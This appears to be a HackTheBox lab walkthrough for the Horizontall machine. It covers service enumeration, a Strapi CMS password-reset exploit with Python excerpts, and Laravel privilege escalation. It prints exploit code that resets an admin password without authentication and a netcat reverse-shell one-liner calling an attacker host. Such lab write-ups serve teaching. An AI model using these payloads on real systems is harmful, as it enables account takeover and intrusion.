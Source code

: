 ```yaml
---
title: "Horizontall"
platform: "HackTheBox"
difficulty: "Medium"
date: 2024-02-20
tags: ["python"]
---
```


![infocard](media/horizontall_newinfocard.png)

## Introduction

Horizontall is a medium-difficulty machine on HackTheBox that involves exploiting a Strapi CMS vulnerability to gain initial access and leveraging a Laravel vulnerability for privilege escalation. This walkthrough will guide you through the process of compromising the Horizontall machine, from initial reconnaissance to gaining root access.

## Initial Enumeration

### Nmap Scan

The first step in any penetration test is enumeration. We start by scanning the target machine using Nmap to identify open ports and services.

```bash
nmap -sV -sC -oA nmap/initial 10.10.11.105
```

**Nmap Results:**

```nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-12 13:59 EST
Nmap scan report for horizontall.htb (10.10.11.105)
Host is up (0.31s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: horizontall
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds
```

**Key Services Identified:**

- **SSH (22):** OpenSSH 7.6p1
- **HTTP (80):** Nginx 1.14.0

### Web Enumeration

Visiting the HTTP service on port 80 revealed a static image. We added `horizontall.htb` to our `/etc/hosts` file to resolve the domain.

![index](media/horizontall_indexpage.png)

**Subdomain Enumeration:**

Using `ffuf`, we discovered a subdomain: `api-prod`.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/dns-Jhaddix.txt -u http://horizontall.htb -H "Host:FUZZ.horizontall.htb" -fc 301
```

**Key Subdomain Identified:**

- `api-prod`

**Directory Brute-Forcing:**

We performed directory brute-forcing on the `api-prod` subdomain:

```bash
ffuf -u http://api-prod.horizontall.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

**Key Directories Identified:**

- `/admin`
- `/reviews`
- `/users`

## Exploiting Strapi CMS

### **Analyzing the Exploit Code**

The exploit script follows a structured approach to identify the vulnerability and leverage it for code execution. Let’s break down its functionality.

#### **Script Initialization**

```
if __name__ == ("__main__"):
    url = sys.argv[1]
    if url.endswith("/"):
        url = url[:-1]
    check_version()
    password_reset()
    terminal = Terminal()
    terminal.cmdloop()
```

- The script expects a URL as input.
- It ensures the URL does not end with a trailing `/` to avoid formatting issues.
- It then calls three main functions: `check_version()`, `password_reset()`, and `Terminal()`.

### **Version Check**

The `check_version()` function identifies the Strapi CMS version running on the target system.

```
def check_version():
    global url
    print("[+] Checking Strapi CMS Version running")
    version = requests.get(f"{url}/admin/init").text
    version = json.loads(version)
    version = version["data"]["strapiVersion"]
    if version == "3.0.0-beta.17.4":
        print("[+] Seems like the exploit will work!!!\n[+] Executing exploit\n\n")
    else:
        print("[-] Version mismatch trying the exploit anyway")
```

This function sends a request to `http://api-prod.horizontall.htb/admin/init` to retrieve the Strapi CMS version. To manually verify, we can use:

```
curl http://api-prod.horizontall.htb/admin/init
```

The response confirms that the system runs **version 3.0.0-beta.17.4**, which is vulnerable to **unauthenticated Remote Code Execution**.

### **Password Reset Exploit**

Next, the script attempts to reset the administrator password to gain control.

```
def password_reset():
    global url, jwt
    session = requests.session()
    params = {"code": {"$gt": 0},
              "password": "SuperStrongPassword1",
              "passwordConfirmation": "SuperStrongPassword1"}
    output = session.post(f"{url}/admin/auth/reset-password", json=params).text
    response = json.loads(output)
    jwt = response["jwt"]
    username = response["user"]["username"]
    email = response["user"]["email"]

    if "jwt" not in output:
        print("[-] Password reset unsuccessful\n[-] Exiting now\n\n")
        sys.exit(1)
    else:
        print(f"[+] Password reset was successful\n[+] Your email is: {email}\n[+] Your new credentials are: {username}:SuperStrongPassword1\n[+] Your authenticated JSON Web Token: {jwt}\n\n")
```

- This function sends a request to `http://api-prod.horizontall.htb/admin/auth/reset-password` with a crafted payload to reset the password.
    
- If successful, it retrieves the **JWT token**, **username**, and **email** of the compromised account.
    
- This grants administrative access to the CMS.
### Gaining Initial Access

Executing the exploit provided a reverse shell:

```bash
mkfifo /tmp/lol;nc attacker_ip 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

**Reverse Shell Obtained:**

![Reverse Shell](media/horizontall_strapishell.png)

### Establishing SSH Access

We added our SSH public key to `/opt/strapi/.ssh/authorized_keys` and accessed the machine via SSH.

## Privilege Escalation

### Enumerating Local Services

Running `linpeas.sh` revealed that ports `1337` and `8000` were listening locally.

**Port Forwarding:**

We forwarded port `8000` to our local machine for further analysis:

```bash
ssh strapi@$ip -L 8000:127.0.0.1:8000
```

### Exploiting Laravel

Visiting `http://127.0.0.1:8000` revealed a Laravel application. Researching Laravel vulnerabilities identified an RCE exploit for Laravel v8.4.2 in debug mode.

**Exploit Execution:**

Using the Laravel exploit, we gained root access.

**Root Shell Obtained:**

![Root Shell](media/horizontall_root.txt.png)

## Conclusion

The Horizontall machine on HackTheBox provided a comprehensive challenge, encompassing web application enumeration, Strapi CMS exploitation, and Laravel privilege escalation. By methodically enumerating services, exploiting discovered vulnerabilities, and leveraging local service misconfigurations, we successfully compromised the machine and gained root access. This walkthrough underscores the importance of thorough enumeration and the effective use of discovered vulnerabilities in penetration testing.